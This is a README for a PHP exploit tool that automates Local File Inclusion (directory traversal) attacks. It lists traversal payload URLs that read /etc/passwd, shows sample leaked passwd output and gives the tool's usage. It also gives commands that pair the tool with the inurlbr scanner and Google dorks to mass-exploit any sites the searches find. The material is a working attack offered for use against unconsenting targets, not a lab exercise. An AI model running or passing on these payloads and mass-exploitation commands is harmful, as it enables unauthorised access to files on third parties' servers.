 # lfiINURL
------

```
  # AUTOR:        Cleiton Pinheiro / Nick: googleINURL
  # Blog:         http://blog.inurl.com.br
  # Twitter:      https://twitter.com/googleinurl
  # Fanpage:      https://fb.com/InurlBrasil
  # Pastebin      http://pastebin.com/u/Googleinurl
  # GIT:          https://github.com/googleinurl
  # PSS:          http://packetstormsecurity.com/user/googleinurl
  # YOUTUBE:      http://youtube.com/c/INURLBrasil
  # PLUS:         http://google.com/+INURLBrasil
```

-   Vulnerability Description
------
Local File Inclusion (also known as LFI) is the process of including files, that are already locally
present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application.
This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be 
included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash)
to be injected. Although most examples point to vulnerable PHP scripts,we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

-   Tool Description
------
The script runs tests searching for the directory that contains the password file server / directory traversal
Exemple:
```
http://target.br/file.php?open=/etc/passwd%00
http://target.br/file.php?open=../etc/passwd%00
http://target.br/file.php?open=../../etc/passwd%00
http://target.br/file.php?open=../../../etc/passwd%00
http://target.br/file.php?open=../../../../etc/passwd%00
```

-   In successful cases
If the above mentioned conditions are met, an attacker would see something like the following:
```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
alex:x:500:500:alex:/home/alex:/bin/bash
margo:x:501:501::/home/margo:/bin/bash
```

-   COMMAND EXPLOIT --help
------
```
   -t : SET TARGET.
   -c : COUNT DIR.
        ex: -c   3 = /etc/passwd%00, ../etc/passwd%00, ../../etc/passwd%00 ...
   Execute:
                 php lfiINURL.php -t target.br/index.file?= -c 50
```

- Demonstration execution
------
![alt text](http://i.imgur.com/4apFMmZ.png "lfiINURL / INURL - BRASIL.")

- USE SCANNER INURLBR MASS EXPLOIT
COMMAND EXEMPLE:
```
inurlbr.php --dork 'br+index.p=' -s vull.txt -q all --comand-all 'URL="_TARGETFULL_&index.p=" && php lfiINURL.php -t $URL -c 10'

inurlbr.php --dork 'include=' -s vull.txt -q all --comand-all 'URL="_TARGETFULL_&include=" && php lfiINURL.php -t $URL -c 10'

inurlbr.php --dork 'cn+page=' -s vull.txt -q all --comand-all 'URL="_TARGETFULL_&page=" && php lfiINURL.php -t $URL -c 10'

inurlbr.php --dork 'cn+page=' -s vull.txt -q all --comand-all 'URL="_TARGETFULL_&page=" && php lfiINURL.php -t $URL -c 10'

#OBS USE UNIX
```

- Demonstration execution xpl + inurlbr
------
![alt text](http://i.imgur.com/7IZtM6J.jpg "lfiINURL + inurlbr / INURL - BRASIL. ")

- Download scanner inurlbr 1.0
------
https://github.com/googleinurl/SCANNER-INURLBR

- References
------
[1] https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion

[2] http://www.wikipedia.org/wiki/Local_File_Inclusion

[3] https://github.com/googleinurl/SCANNER-INURLBR#---definindo-comando-externo
